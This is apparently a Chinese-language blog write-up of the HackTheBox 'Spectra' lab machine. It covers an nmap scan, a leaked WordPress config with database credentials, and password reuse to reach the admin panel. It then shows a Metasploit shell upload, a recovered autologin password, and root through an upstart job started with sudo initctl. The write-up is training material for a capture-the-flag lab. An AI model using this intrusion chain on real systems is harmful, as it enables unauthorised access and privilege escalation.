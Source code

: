 # HackTheBox Spectra

  
  
&lt;!--more--&gt;  
```bash  
sudo nmap --min-rate 10000 -A -sS 10.129.248.82  
  
Host is up (0.14s latency).  
Not shown: 997 closed tcp ports (reset)  
PORT     STATE SERVICE VERSION  
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)  
| ssh-hostkey:   
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)  
80/tcp   open  http    nginx 1.17.4  
|_http-server-header: nginx/1.17.4  
|_http-title: Site doesn&#39;t have a title (text/html).  
3306/tcp open  mysql   MySQL (unauthorized)  
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).  
TCP/IP fingerprint:  
OS:SCAN(V=7.94%E=4%D=4/15%OT=22%CT=1%CU=31117%PV=Y%DS=2%DC=T%G=Y%TM=661CEC3  
OS:A%P=x86_64-apple-darwin21.6.0)SEQ(SP=100%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A)SE  
OS:Q(SP=100%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=100%GCD=2%ISR=10E%TI=Z  
OS:%CI=Z%II=I%TS=A)SEQ(SP=101%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53A  
OS:ST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=  
OS:M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=  
OS:Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S&#43;%F=AS%RD=0%Q  
OS:=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%  
OS:T=40%W=0%S=Z%A=S&#43;%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD  
OS:=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S&#43;%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL  
OS:=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)  
  
Network Distance: 2 hops  
  
TRACEROUTE (using port 21/tcp)  
HOP RTT       ADDRESS  
1   109.26 ms 10.10.16.1  
2   150.71 ms 10.129.248.82  
  
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 54.99 seconds  
```  
存在`80 22 3306`端口  
访问`80`端口，点击链接发现均跳转到了`spectra.htb`域名，在`/etc/hosts`添加  
利用`dirsearch`目录爆破，`/testing/`存在目录遍历  
`wp-config.php.save`存在数据库泄漏  
```bash  
define( &#39;DB_NAME&#39;, &#39;dev&#39; );  
  
/** MySQL database username */  
define( &#39;DB_USER&#39;, &#39;devtest&#39; );  
  
/** MySQL database password */  
define( &#39;DB_PASSWORD&#39;, &#39;devteam01&#39; );  
  
/** MySQL hostname */  
define( &#39;DB_HOST&#39;, &#39;localhost&#39; );  
  
/** Database Charset to use in creating database tables. */  
define( &#39;DB_CHARSET&#39;, &#39;utf8&#39; );  
  
/** The Database Collate type. Don&#39;t change this if in doubt. */  
define( &#39;DB_COLLATE&#39;, &#39;&#39; );  
```  
直接登陆`3306`，但是并不能连接，这里密码复用登陆后台  
用户名在首页处得到`administrator`  
进入后台后得知`WordPress 5.4.2`版本  
利用`msf`进行getshell  
`exploit/unix/webapp/wp_admin_shell_upload`  
`/opt/autologin.conf.orig`文件  
```orig  
# Copyright 2016 The Chromium OS Authors. All rights reserved.  
# Use of this source code is governed by a BSD-style license that can be  
# found in the LICENSE file.  
description   &#34;Automatic login at boot&#34;  
author        &#34;chromium-os-dev@chromium.org&#34;  
# After boot-complete starts, the login prompt is visible and is accepting  
# input.  
start on started boot-complete  
script  
  passwd=  
  # Read password from file. The file may optionally end with a newline.  
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do  
    if [ -e &#34;${dir}/passwd&#34; ]; then  
      passwd=&#34;$(cat &#34;${dir}/passwd&#34;)&#34;  
      break  
    fi  
  done  
  if [ -z &#34;${passwd}&#34; ]; then  
    exit 0  
  fi  
  # Inject keys into the login prompt.  
  #  
  # For this to work, you must have already created an account on the device.  
  # Otherwise, no login prompt appears at boot and the injected keys do the  
  # wrong thing.  
  /usr/local/sbin/inject-keys.py -s &#34;${passwd}&#34; -k enter  
end script  
```  
利用`chatgpt`分析一下  
```bash  
这个脚本是用于在启动时自动登录的。下面是对脚本的解释：  
  
1. 脚本的目的是在系统启动完成后自动登录。  
2. 它会在启动完全完成后开始运行，也就是在 &#34;boot-complete&#34; 服务启动后。  
3. 脚本首先会尝试从两个可能的目录中读取密码文件：&#34;/mnt/stateful_partition/etc/autologin&#34; 和 &#34;/etc/autologin&#34;。如果找到密码文件，则会读取其中的密码。  
4. 如果成功读取到密码，则会使用 &#34;/usr/local/sbin/inject-keys.py&#34; 工具将密码注入到登录提示中。这样就可以实现自动登录。  
5. 脚本中的注释提到，为了让自动登录正常工作，你必须已经在设备上创建了一个账户。否则，在启动时不会显示登录提示，注入的键会执行错误的操作。  
```  
在`/etc/autologin/passwd`发现密码`SummerHereWeCome!!`  
在`katie`用户处发现user的`flag`，所以很大概率是`katie`的密码  
登陆成功后，`cat user.txt`  
```bash  
katie@spectra ~ $ sudo -l  
User katie may run the following commands on spectra:  
    (ALL) SETENV: NOPASSWD: /sbin/initctl  
```  
可以`root`权限执行`initctl`  
看一下可以编辑的服务`sudo initctl list`  
找到几个以`test`开头的可疑服务，进行查看一下  
所有的服务都在/etc/init  
```bash  
cat /etc/init/test.conf  
  
description &#34;Test node.js server&#34;  
author      &#34;katie&#34;  
  
start on filesystem or runlevel [2345]  
stop on shutdown  
  
script  
  
    export HOME=&#34;/srv&#34;  
    echo $$ &gt; /var/run/nodetest.pid  
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js  
  
end script  
  
pre-start script  
    echo &#34;[`date`] Node Test Starting&#34; &gt;&gt; /var/log/nodetest.log  
end script  
  
pre-stop script  
    rm /var/run/nodetest.pid  
    echo &#34;[`date`] Node Test Stopping&#34; &gt;&gt; /var/log/nodetest.log  
end script  
```  
直接利用`test.conf`进行提权  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404152214139.png)
`sudo initctl start test`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404152214125.png)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/hackthebox-spectra/  

